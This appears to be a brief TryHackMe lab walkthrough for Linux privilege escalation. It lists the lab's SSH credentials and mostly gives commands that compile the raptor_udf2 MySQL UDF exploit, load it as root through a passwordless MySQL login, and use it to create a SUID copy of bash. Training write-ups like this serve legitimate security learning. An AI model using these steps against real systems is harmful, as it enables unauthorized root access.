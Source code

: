 # TRYHACKME : Linux PrivEsc
Deploy the target machine, and enter the following ssh credentials: `user:password321`

## Service Exploits
Simply copy in consecutive order the ff commands:
```
cd /home/user/tools/mysql-udf
```
Compiler the following file `raptor_udf2.c`
```
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```
Connect to the mysql with no password:
```
mysql -u root
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:
```
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
whoami  // voila root access
```
